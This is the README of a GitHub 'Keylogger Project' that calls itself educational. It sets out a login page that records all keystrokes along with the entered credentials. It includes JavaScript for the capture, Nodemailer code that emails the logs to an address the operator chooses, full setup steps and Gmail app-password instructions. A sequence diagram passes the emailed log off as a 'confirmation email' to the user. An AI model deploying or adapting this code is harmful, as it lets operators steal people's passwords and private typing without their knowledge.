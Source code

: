 # 🕵️‍♂️ Keylogger Project

A comprehensive **educational project** demonstrating **client-server communication, event handling, and data processing** in web applications. This implementation focuses on understanding **keystroke capture mechanisms** and **secure data transmission protocols**.

---

## 📌 System Architecture

```mermaid
flowchart TD
    classDef frontend fill:#42A5F5,color:#fff,stroke:#1976D2
    classDef backend fill:#66BB6A,color:#fff,stroke:#388E3C
    classDef storage fill:#FFA726,color:#000,stroke:#F57C00
    
    subgraph Frontend[Frontend Layer]
        UI[Login Form]:::frontend
        KS[Keystroke Capture]:::frontend
        FM[Form Manager]:::frontend
    end
    
    subgraph Backend[Backend Services]
        Server[Express Server]:::backend
        KEYS[Keystroke Processor]:::backend
        Email[Nodemailer Service]:::backend
    end
    
    subgraph Storage[Configuration]
        ENV[.env Configuration]:::storage
    end
    
    UI --> KS
    KS --> FM
    FM --> Server
    Server --> KEYS
    KEYS --> Email
    ENV -.-> Server
    
    subgraph Legend[Component Types]
        F[Frontend Components]:::frontend
        B[Backend Services]:::backend
        S[Storage/Config]:::storage
    end
```

### 🔹 Layers Overview:
- **🔵 Frontend Layer:** Handles user interaction and keystroke capture
- **🟢 Backend Services:** Processes captured data and manages email transmission
- **🟡 Configuration:** Stores environment variables and settings

---

## 📂 Project Structure

```plaintext
📁 project-root/
├── 📄 index.js          # Backend server implementation
├── 📄 script.js         # Frontend keystroke capture
├── 📄 index.html        # Login form interface
├── 📄 keycodes.js       # Key mapping definitions
├── 📄 styles.css        # UI styling
└── 📄 .env             # Environment configuration
```

---

## 🔄 Data Flow Visualization

```mermaid
sequenceDiagram
    participant User
    participant Form as Login Form
    participant KC as Keystroke Capture
    participant FM as Form Manager
    participant Server as Express Server
    participant KP as Keystroke Processor
    participant Email as Nodemailer Service
    
    Note over User,Email: Normal Login Flow
    User->>Form: Enter credentials
    Form->>KC: Capture keystrokes
    KC->>FM: Store captured keys
    User->>FM: Submit form
    FM->>Server: Send credentials + keystrokes
    
    Note over Server,Email: Processing Phase
    Server->>KP: Process keystroke data
    KP->>Email: Prepare email payload
    Email-->>User: Send confirmation email
    
    Note over User,Email: Error Handling
    alt Invalid Credentials
        Server-->>User: Return error message
    else Email Failure
        Email-->>Server: Report delivery error
    end
```

### 🔹 Phases Breakdown:
1. **🔵 Normal Login Flow** – User interaction and data capture
2. **🟢 Processing Phase** – Data handling and transmission
3. **🟡 Error Handling** – Robust fault tolerance mechanisms

---

## 🛠️ Setup Instructions

### 🔹 Clone the Repository
```bash
git clone https://github.com/pranaykumar2/keylogger.git
```

### 🔹 Install Dependencies
```bash
npm install
```

### 🔹 Configure Environment Variables
```plaintext
GMAILFROM=your-from-email@gmail.com
PASSWORD=your-email-password
GMAILTO=your-to-email@gmail.com
PORT=3000
```

### 🔹 Initialize Server
```bash
node index.js
```

---

## 🔍 Implementation Details

### ✏️ Keystroke Capture Mechanism
```javascript
document.addEventListener('keydown', (event) => {
    const keyInfo = {
        keyCode: event.keyCode,
        key: event.key,
        timestamp: new Date().getTime(),
        eventType: 'keydown'
    };
    capturedKeys.push(keyInfo);
});
```

### 📩 Email Transmission System
```javascript
const transporter = nodemailer.createTransport({
    service: 'gmail',
    auth: {
        user: process.env.GMAILFROM,
        pass: process.env.PASSWORD
    }
});

const mailOptions = {
    from: process.env.GMAILFROM,
    to: process.env.GMAILTO,
    subject: 'Keystrokes Log',
    text: `Keystrokes log for user ${username}:
${keysPressedText}`
};
```

---

## 🔐 Security Considerations

- ✅ **Use environment variables** to store sensitive credentials
- ✅ **Implement error handling and logging** for robust operations
- ✅ **Use secure communication protocols** to prevent data leaks
- ✅ **Regularly update dependencies** to prevent vulnerabilities

---

## 📋 Steps to Setup `APP PASSWORD`

1. Go to your Google Account **App Passwords**: [Google App Passwords](https://myaccount.google.com/apppasswords)
2. Name your app and create the password
3. Copy the generated password and use it in the `.env` file

---

## 📝 Usage Guide

🚀 **Launch the application** at `localhost:3000`
📌 **Enter login credentials** in the form
⌨️ **Type any additional text** while the page is active
📤 **Submit the form** to trigger email transmission

---

## 💻 Technologies Used

🔷 **Frontend:** HTML, CSS, JavaScript  
🔷 **Backend:** Node.js, Express.js  
🔷 **Utilities:** Nodemailer, Body-parser  
🔷 **Development:** Git

---

## 🤝 Contributing Guidelines

- 📌 **Open an issue** before submitting major changes
- 📌 **Follow the existing code style** for consistency
- 📌 **Include comprehensive test cases** when adding features
- 📌 **Document new features** thoroughly in the README

---

## 📜 License

Released under the **MIT License**. See `LICENSE` file for details.

---

### 🎯 **Enjoy coding and stay secure! 🔐**

